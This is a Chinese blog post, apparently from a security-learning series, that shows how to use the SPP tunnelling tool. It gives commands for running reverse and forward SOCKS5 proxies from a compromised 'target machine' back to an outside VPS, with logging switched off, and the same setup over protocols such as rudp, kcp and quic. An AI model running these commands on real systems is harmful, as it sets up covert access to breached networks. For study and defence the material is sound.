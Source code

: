 #  内网穿透学习-9-SPP工具

原创 FengXS0ne  [ Feng随心而安 ](javascript:void\(0\);)

**Feng随心而安** ![]()

微信号 gh_13bd5fd7a612

功能介绍 一个平凡的人，记录平凡的事，过着平凡的生活。平平淡淡，简简单单，追求无憾，追求无悔。

____

___发表于_

收录于合集 #内网穿透学习 9个

**本文章仅供学习交流使用，
文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。请尊重原创，可以相互学习，虽说是记录生活，但也反感被人拿去盈利。**

1\. 工具介绍

 **
**一款比较好用的内网穿透工具，支持的协议：TCP，UDP，RUDP（可靠UDP），RICMP（可靠ICMP），RHTTP（可靠HTTP），KCP，Quic。支持类型：正向代理、反向代理、SOCKS5正向代理、SOCKS5反向代理，协议和类型可以自由组合，外部代理协议和内部转发协议可以自由组合，支持Shadowsocks插件，spp
Shadowsocks插件、spp shaowsocks插件android。

下载地址：https://github.com/esrrhs/spp

双工工具，可用做客户端，又可以做服务端

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165206.png)

2\. 具体使用

 **      1. **反向代理  
    靶机反连到VPS上的1080端口上，通过本地代理VPS的1080端口实现内网穿透到靶机上。  
    靶机：x.x.x.218  
    VPS：x.x.x.90

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    VPS端：./spp -type server -proto tcp -listen :8888 -nolog 1   
    -type type    server  服务端    proxy_client    reverse_proxy_client      socks5_client  正向代理socks5     reverse_socks5_client 反向socks5代理-proto  使用的协议    tcp     rudp     ricmp     kcp     quic     rhttp  
    -listen  监听端口    :8888-nolog 1  不写日志-noprint 1   不在页面打印

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165216.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    靶机（拿到shell）./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -proxyproto tcp -nolog 1  
    -name     客户端的名词，默认位client-type     reverse_socks5_client  反向sock5代理   -server    x.x.x.90:8888 spp的服务端ip以及监听的端口     -fromaddr     -fromaddr 反弹socks5到 x.x.x.90 的1080的端口    :1080   -proxyproto     tcp 被代理的协议-nolog 1  不写日志-noprint 1   不在页面打印

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165217.png)

当靶机反连过去，VPS的1080端口就会被打开。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165219.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165220.png)

 **2.  **正向代理

    本地去socks5 vps 的1080 端口，后通过本地代理VPS的1080端口实现内网穿透到靶机上。VPS的1080端口直连到靶机上去，  
    靶机：x.x.x.218  
    VPS：x.x.x.90

靶机上：因为是双工工具，可用做客户端，又可以做服务端

  *   *   *   * 

    
    
    靶机上./spp -type server -proto tcp -listen :8821-type type     server  服务端

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165221.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    VPS: ./spp -name "test" -type socks5_client -server x.x.x.218:8821 -fromaddr :1080 -proxyproto tcp  
    -name     客户端的名词，默认位client-type     socks5_client 正向sock5代理   -server    x.x.x.218:8821 spp的服务端ip以及监听的端口     -fromaddr     -fromaddr  正向代理，打开的是VPS的1080端口    VPS的1080    :1080   -proxyproto     tcp 被代理的协议-nolog 1  不写日志-noprint 1   不在页面打印

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165222.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165223.png)

 ** **3.  **其他**

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    以反向代理为例，使用其他协议  
    代理TCP，内部RUDP协议转发vps./spp -type server -proto rudp -listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto rudp这里需要注意的参数是-proxyproto tcp -proto rudp  简单理解意思是，对rudp协议封装成tcp协议。这个协议封装是怎样的，我也拿不准，可能说的有错。勿怪

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165223.png)

  *   *   *   *   *   *   *   *   * 

    
    
    代理TCP，内部kcp协议转发vps./spp -type server -proto kcp -listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto kcp这里需要注意的参数是-proxyproto tcp -proto rudp  简单理解意思是，对kcp协议封装成tcp协议。 这个协议封装是怎样的，我也拿不准，可能说的有错。勿怪

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165225.png)

  *   *   *   *   *   * 

    
    
    代理TCP，内部quic协议转发vps./spp -type server -proto kcp -listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto quic

  *   *   *   *   *   * 

    
    
    代理TCP，内部rhttp协议转发vps./spp -type server -proto rhttp-listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto rhtt

  

随时记录，用的时候，拿来就用....  

内网穿透应该算差不多了吧，魔改的话，等后面再弄吧....最近在研究nuclei这款工具...

 ** **本文章仅供学习交流使用，
文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。请尊重原创，可以相互学习，虽说是记录生活，但也反感被人拿去盈利。****

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


